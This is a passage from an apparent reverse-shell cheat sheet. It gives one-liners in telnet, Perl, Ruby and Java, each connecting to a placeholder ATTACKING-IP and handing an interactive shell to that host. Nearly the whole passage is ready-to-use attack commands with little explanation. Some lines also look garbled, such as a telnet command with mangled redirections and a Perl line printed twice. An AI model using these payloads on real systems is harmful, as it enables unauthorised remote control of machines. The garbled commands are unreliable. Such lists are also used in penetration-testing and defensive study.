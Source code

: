 Source: @jobertabma via @JaneScott

## Telnet Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#telnet-reverse-shell)

```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```bash
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

Remember to listen on 443 on the attacking machine also.

## Perl Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#perl-reverse-shell)

```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Perl Windows Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#perl-windows-reverse-shell)

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#ruby-reverse-shell)

```ruby
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java Reverse Shell[](https://highon.coffee/blog/reverse-shell-cheat-sheet/#java-reverse-shell)

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
